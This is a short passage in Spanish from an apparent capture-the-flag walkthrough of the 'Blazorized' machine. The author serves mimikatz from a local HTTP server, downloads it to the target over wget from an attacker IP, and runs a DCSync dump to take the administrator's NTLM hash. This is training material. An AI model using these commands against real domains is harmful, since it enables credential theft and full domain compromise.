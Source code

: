 <img src="/images/writeup-blazorized/45.png">

necesitamos #mimikatz para exfiltrar las credenciales de administrador

vamos a descargarlo: https://github.com/ParrotSec/mimikatz/tree/master/x64
y en la carpeta de descarga abriremos de nuevo un servidor python:
```bash
python3 -m http.server 80
```
y vamos a descargarlo en programdata con el nuevo usuario:
```powershell
wget http://10.10.10.10/mimikatz.exe -o mimikatz.exe
```
y usaremos el comando:
```powershell
.\mimikatz.exe "lsadump::dcsync /user:administrator" exit
```
 y eso nos devuelve un hash  ntlm que usaremos para iniciar sesión como administrador: